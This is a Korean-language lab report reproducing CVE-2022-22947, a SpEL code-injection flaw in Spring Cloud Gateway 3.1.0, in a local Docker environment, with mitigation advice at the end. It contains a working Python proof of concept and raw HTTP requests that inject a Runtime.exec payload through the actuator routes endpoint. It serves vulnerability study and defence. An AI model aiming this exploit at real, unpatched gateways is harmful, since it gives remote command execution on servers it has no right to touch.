




# CVE-2022-22947: Spring Cloud Gateway Actuator API SpEL Code Injection Vulnerability

## 1. 요약

- 본 보고서는 Spring Cloud Gateway에서 발생한 CVE-2022-22947을 Docker 환경에서 재현하고 분석한 것이다. 실습은 Spring Cloud Gateway 3.1.0 환경을 기반으로 진행하였다.

## 2. 분석

### 취약점 설명

- Spring Cloud Gateway에서 발생한 Code Injection 취약점이다.
- Spring Cloud Gateway는 API Gateway를 구성하기 위한 라이브러리로 client의 요청을 받아 백엔드로 라우팅하는 역할을 한다.
- 공격자는 악의적으로 조작한 요청을 통해 Gateway Route Definition을 등록하고 SpEL 표현식을 삽입할 수 있다.
- 취약한 Spring Cloud Gateway 버전에서 악성 Route Definition과 SpEL 표현식이 처리되며 서버 측에 명령으로 이어질 수 있다.

### 취약 환경 및 버전

Spring Cloud Gateway version

- 3.1.0(해당 실습)
- 3.0.0 to 3.0.6
- 더 오래된 지원 종료 버전

## 3. 재현 절차 및 실행결과

### 취약 환경 (Spring Cloud Gateway 3.1.0)

```bash
docker compose up -d
```

- 취약한 Spring Cloud Gateway 3.1.0 Docker로 실행한다.
- 서버 시작 후 `http://your-ip:8080`에 접속해 예시 페이지 확인한다.



### 취약점 재현 및 실행결과

```bash
# 각 환경에 맞게 requests 라이브러리 설치 후 poc.py 실행

# Windows
py -m pip install requests
py poc.py

# Windows py 안 될때
python -m pip install requests
python poc.py

# macOS/linux
python3 -m pip install requests
python3 poc.py
```

```python
#poc.py
import requests

# target, route, refresh URL 선언
target = "http://localhost:8080"
route = f"{target}/actuator/gateway/routes/hacktest"
refresh = f"{target}/actuator/gateway/refresh"

# 악성 SpEL 표현식이 포함된 payload
payload = {
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

# HTTP 상태 출력하는 함수
def status(response):
    print("HTTP/1.1", response.status_code, response.reason)

print("1. 악성 SpEL 표현식이 포함된 Route Definition 등록")
response = requests.post(route, json = payload)
status(response)

print("\n2. Gateway Refresh 요청")
response = requests.post(refresh)
status(response)

print("\n3. 명령 실행 결과")
response = requests.get(route)
status(response)
print(response.text) # 명령 실행 결과 출력

print("\n4. 악성 Route 삭제")
response = requests.delete(route)
status(response)

print("\n5. Gateway Refresh 재요청")
response = requests.post(refresh)
status(response)
```

### 1. 악성 SpEL 표현식이 포함된 Route Definition 등록

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

- Gateway Actuator API를 이용해 `hacktest` 라는 Route를 등록한다.
- Route 필터인 AddResponseHeader의 value 값에 SpEL 표현식을 삽입해 서버에서 `id` 명령이 실행되도록 한다.
- 아래는 poc.py 결과이다.



### 2. Gateway Refresh 요청

```bash
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

- 앞서 등록한 Route Definition을 Spring Cloud Gateway에 반영하기 위해 /actuator/gateway/refresh endpoint를 호출한다.
- 아래는 poc.py 결과이다.


### 3. 명령 실행 결과

```bash
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

- hacktest Route를 조회하여 결과를 확인한다.
- 다음과 같은 결과가 확인되면 `id` 명령이 실행된 것이다.



- 이를 통해 HTTP 요청만으로도 container 내부에서 `id` 가 실행된 것을 알 수 있다.
- 또한 내부에서 명령이 root 권한으로 실행 되었으므로 위험도가 높다.

### 4. 악성 Route 삭제

```bash
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

- 결과 확인 후 Route를 삭제한다.
- 아래는 poc.py 결과이다.


### 5. Gateway Refresh 재요청

```bash
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

- Route를 삭제한 것을 Spring Cloud Gateway에 반영하기 위해 /actuator/gateway/refresh endpoint를 호출한다.
- 아래는 poc.py 결과이다.



## 4. 대응방안

### 1. 보안 업데이트

- Spring Cloud Gateway의 취약한 버전인 3.1.0, 3.0.0 to 3.0.6에서 발생하므로 취약점이 보완된 버전으로 업데이트해야한다.

### 2. Gateway Actuator endpoint의 비활성화

- management.endpoint.gateway.enabled: false 를 통해 비활성화 한다.

### 3. Actuator의 보안

- 해당 기능이 필요한 경우 Spring Security를 사용해 인증된 사용자만 접근할 수 있도록 보호해야한다.

## 5. 참고자료

- Spring Security Advisory CVE-2022-22947: Spring Cloud Gateway Code Injection Vulnerability [https://spring.io/security/cve-2022-22947](https://spring.io/security/cve-2022-22947)
- Vulhub, CVE-2022-22947 [https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)
